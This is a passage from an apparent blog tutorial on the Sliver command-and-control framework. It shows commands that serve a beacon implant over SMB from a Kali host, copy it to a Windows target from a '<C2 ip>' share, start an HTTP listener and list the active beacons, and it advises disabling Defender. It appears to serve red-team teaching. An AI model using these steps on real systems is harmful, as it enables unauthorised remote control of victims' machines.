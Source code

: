 ![Alt text](/assets/images/posts/c2/1.png){: .align-center}


After that, u can run SMB SERVER using IMPACKET to transfer it to the remote Windows Machine
```
smbserver.py kali . -smb2support -username anon -password anon
```

![Alt text](/assets/images/posts/c2/2.png){: .align-center}


**On Windows**

Connect:
```
net use \\<C2 ip>\kali /USER:anon anon
```

Copy the File:
```
copy \\<C2 ip>\kali\<beacon.exe> .
```
![Alt text](/assets/images/posts/c2/3.png){: .align-center}

![Alt text](/assets/images/posts/c2/4.png){: .align-center}


> Bypass in necessary if the AV/EDR are enable (So, for now just disable Defender)

> I'll write about evasion in future posts and How to use staged payloads in Sliver

## Listener

- http/https - for communication over the HTTP(S) protocol, pretty standard across any C2     
- mtls - communication using mutual-TLS, a protocol in which both the implant and the server present a certificate that the other must validate. If one certificate fails, the connection does not happen. 
- wg - communication using WireGuard, which essentially creates a lightweight VPN to communicate over. 
- dns -This is all UDP and its not recommended for beginners.


> Since our beacon was only configured to have an http callback, we can run http in our shell and then execute the beacon on the remote Windows computer.

```
sliver > http
```

![Alt text](/assets/images/posts/c2/5.png){: .align-center}




## Beacons

To see the open beacons just type:
```
sliver > beacons 
```
